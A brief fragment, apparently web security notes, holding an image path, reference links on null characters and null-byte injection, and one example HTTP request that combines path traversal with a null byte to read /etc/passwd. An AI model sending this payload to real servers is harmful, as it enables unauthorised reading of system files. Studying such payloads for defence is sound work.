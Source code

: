 https://en.wikipedia.org/wiki/Null_character
https://www.whitehatsec.com/glossary/content/null-byte-injection

GET /image?filename=../../../etc/passwd%00.png 